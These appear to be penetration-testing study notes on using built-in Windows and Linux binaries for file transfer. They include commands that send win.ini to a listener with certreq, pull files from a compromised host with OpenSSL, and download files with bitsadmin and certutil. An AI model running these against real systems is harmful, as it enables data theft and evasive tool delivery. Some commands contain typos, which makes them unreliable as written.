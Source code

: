 
- The Phrase ==Living off the land== was coined by Christopher Campbell & Matt Graeber at DerbyCon 3.
- The term LOLBins (Living off the Lands binaries) came from Twitter. There are two websites that aggregate information on Living off the Land binaries:
	-  [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
	-  [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

-  Living off the Lands binaries can be used to perform  function such as:
	- Download 
	- Upload 
	- Command Execution
	- File Read
	- File Write 
	- Bypasses

- ## Using the LOLBAS and GTFOBINS Project:
	
	- ### LOLBAS:
		- To search for Downloads and upload functions in LOLBAS 
			- search for `/upload` & `/download` keywords.
			
			- ### Upload win.ini 
			
				- For example use ==***CertReq.exe***==
					- Need a listener on a port for a incoming traffic using Netcat and then execute `certreq.exe` to upload file.
				
				- `PowerShell/CMD:` 
					- `certreq.exe -POST -config http://<IP>:<port>/ c:\windows\win.ini`
			
			- ### File Received in Netcat Session:
				- `nc -lvnp <port>`
				- if get an error when running `certreq.exe`, the version that is in used may not contain the `-Post` parameter
	
	- ### GTFOBins:
		- To search for the download and upload function in GTFOBins for Linux binaries.
		- search or select `+file download` or `+file upload`.
		- For example use ***==OpenSSL==***
			- Installed and often included in other software distribution, with sysadmins to generate security certificates, among other tasks.
			- OpenSSL can be used to send files "nc styles".
				- ### Create Certificate:
				
					- `openssl req -newkey rsa:2048 -nodes -keeyout key.pem -x509 -days 365 -out certificate.pem`
				
				- ### Stand Up the Server:

					- `  openssl s_server -quite -accept 80 -cert certificate.pem -key key.pem < <file_path>`
				
				- ### Download File from the Compromised Machine 
				
					- `openssl s_client -connect <IP> -quite > <file_name>`
	
	- ### Other Common Living off the Land tools:
		
		- #### Bitsadmin Download function:
			- The Background Intelligent Transfer Service(BITS):
				- It can be used to download files from HTTP sites and SMB shares.
				- It intelligently checks host and network utilization.
			
			- ##### File Download with Bitsadmin:
			
				- `bitsadmin /transfer wcb /priority foreground http://<IP>:<port>/<file_name> <Destined_file_path>`
				
				- PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers
				
			- ##### Download:
			
				- `Import-Module bitstransfer; Start-BitsTransfer -Source "http://<IP>:<port>/<file_name>" -Destination "<destine_path-file>"`
	
	- ### Certutil:
		- Certutil can be used to download arbitrary files.
		- It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows
		- The Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.
		
			- `certutil.exe -verifyctl -split -f http://<IP>:<port>/<file_name>`
